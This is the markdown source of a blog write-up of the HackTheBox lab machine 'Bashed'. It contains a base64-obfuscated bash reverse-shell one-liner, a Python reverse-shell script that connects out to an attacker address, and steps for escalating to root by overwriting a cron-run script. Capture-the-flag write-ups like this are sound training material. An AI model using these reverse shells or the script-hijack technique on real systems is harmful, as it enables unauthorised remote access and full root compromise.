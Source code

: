 +++ 
title = "Bashed HTB Write up"
description = "Write up for the HTB machine 'Bashed'"
author = "greatmoves"
tags = ["php", "sudo -l", "python", "nikto", "cronjob", "hackthebox"]
date = 2023-03-01
+++

## Recon
----
### Nikto
cmd: `nikto -host 10.10.10.68`

Our nikto scan reveals to us a number of files and directories
- /config.php
- /css/
- /dev/
- /php/
- /images/
- /icons/

The path `/dev/phpbash.php` seems to be a remote shell

So let's use this to get a reverse shell by running the following command along with a netcat listener

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAueC54LzQ0NDQgMD4mMQ==" | base64 -d | bash`

Once we have our reverse shell let's start with obtaining a fully interactive shell by running `python -c 'import pty;pty.spawn("/bin/bash");'` and then `sudo -l` where we get the following output:

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means we don't need a password to move from our user `www-data` to the user `scriptmanager`, so we simply run `sudo -u scriptmanager /bin/bash` 

`/home/arrexel` is where we can find `user.txt`

## Privilege escalation
----
Through further enumeration of the file system we can see that there is a `/scripts/` folder in the root of the file system.

Simply running `ls -la` we can see that `test.py` is owned by our user, `scriptmanager`, and `test.txt` is owned by the root user.

Therefore we could assume that the script `test.py` is being run by the root user (perhaps through a cronjob, or some sort of other automation), and since `test.py` is owned by our user, we have permissions to edit it.

So, let's replace `test.py` with a python script for a reverse shell. We can do this by using `echo '{python code here}' > test.py` when in the `/scripts/` directory.

{{< highlight py "linenos=inline" >}}
    #!/usr/bin/python3
    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.10.x.x",4445));os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);
{{< / highlight >}}

Spin up your netcat listener on the same port that is in your script and wait until `test.py` is run to catch your reverse shell as root.

Finally, navigate to `/root/` for `root.txt`
